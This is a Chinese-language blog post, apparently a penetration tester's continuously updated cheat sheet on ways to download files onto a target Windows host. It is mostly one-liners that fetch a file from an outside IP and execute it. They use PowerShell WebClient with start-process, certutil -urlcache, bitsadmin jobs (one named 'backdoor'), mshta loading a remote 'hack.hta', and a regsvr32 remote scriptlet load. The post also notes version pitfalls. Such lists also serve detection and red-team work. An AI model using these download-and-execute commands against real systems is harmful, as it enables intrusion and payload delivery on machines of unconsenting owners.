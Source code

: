```yaml
---
layout: post
title: 文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*
>
> 

### 0x01 PoweShell

win2003，winXP不支持

踩坑：

- Powershell 版本大于2.0时 在连接Powershell命令时 **空格** 替换了 `;`
- Powershell 版本低于或等于2.0时 `DownloadFile()`函数不支持自定义路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'test.bat');start-process 'test.bat'

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'c:\1.bat');start-process 'c:\1.bat'


```powershell
$client = new-object System.Net.WebClient;$client.DownloadFile('https://avatars0.githubusercontent.com/u/19944759?s=150&v=4', 'C:\1.jpg')
```



### 0x02 Certutil

path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

```cmd
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren test.txt test.bat&test.bat
certutil -urlcache -split -f http://47.92.194.173/test.txt c:\a.bat&c:\a.bat
```

有的时候certutil不支持指定下载的目录，为了兼容直接在当前目录操作



### 0x03 bitsadmin

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败会以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  >  of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

- 啊





Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe



```cmd
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe
```

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

- ```cmd
  bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1
  ```

bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

```cmd
bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat
```



DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用



### 0x03 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll